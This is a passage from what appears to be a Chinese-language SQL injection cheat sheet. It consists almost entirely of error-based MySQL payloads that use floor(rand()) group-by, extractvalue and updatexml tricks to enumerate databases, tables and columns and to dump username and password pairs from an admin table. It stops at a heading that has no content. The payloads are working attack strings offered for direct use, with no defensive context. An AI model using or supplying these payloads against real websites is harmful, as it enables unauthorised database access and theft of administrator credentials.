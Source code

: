 ```http
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴库**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴表**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴字段**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x61646D696E LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴内容**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

### 2、ExtractValue(有长度限制,最长32位)

```http
and extractvalue(1, concat(0x7e, (select @@version),0x7e))

and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)))
```

### 3、UpdateXml(有长度限制,最长32位)

```http
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
```

### 4、NAME_CONST(适用于低版本)
